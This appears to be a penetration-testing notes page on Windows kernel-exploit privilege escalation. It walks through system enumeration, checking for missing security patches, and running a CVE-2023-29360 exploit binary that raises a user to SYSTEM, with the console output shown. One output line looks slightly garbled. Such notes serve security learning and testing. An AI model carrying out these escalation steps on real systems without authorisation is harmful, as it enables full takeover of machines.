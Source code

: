 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Exploits

**Kernel exploits** aim to leverage Windows kernel vulnerabilities and typically result in high privileges, but requires advanced knowledge and carries a high risk of crashing the system.

{% tabs %}
{% tab title="1. System Info" %}
```powershell
> systeminfo

Host Name:                 CLIENTWK220
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22621 N/A Build 22621
...
```
{% endtab %}

{% tab title="2. Hotfixes" %}
{% code overflow="wrap" %}
```powershell
# enumerate security patches
> Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

Source        Description      HotFixID      InstalledBy         InstalledOn
------        -----------      --------      -----------         -----------
              Security Update  KB5025239                         5/4/2023 12:00:00 AM
              Security Update  KB5025749                         5/4/2023 12:00:00 AM
              Security Update  KB5017233                         9/25/2022 12:00:00 AM
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
> whoami
clientwk220\steve

> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 20c2f3c00c0
[+] Second mapped _MDL: 20c2f3d0040
[+] Unprivileged token reference: ffffbc053be6d06d
[+] System token reference: ffffbc052ea7d496
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

>whoami
nt authority\systemower
```
{% endcode %}
{% endtab %}
{% endtabs %}

> _Vulnerabities on Windows OS systems can be found on the_ [_Security Update Guide_](https://msrc.microsoft.com/update-guide/)_, such as_ [_CVE-2023-29360_](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)_, and their corresponding security updates can be shown on the_ [_Microsoft Update Catalog_](https://catalog.update.microsoft.com/Search.aspx?q=KB5027231) _page._

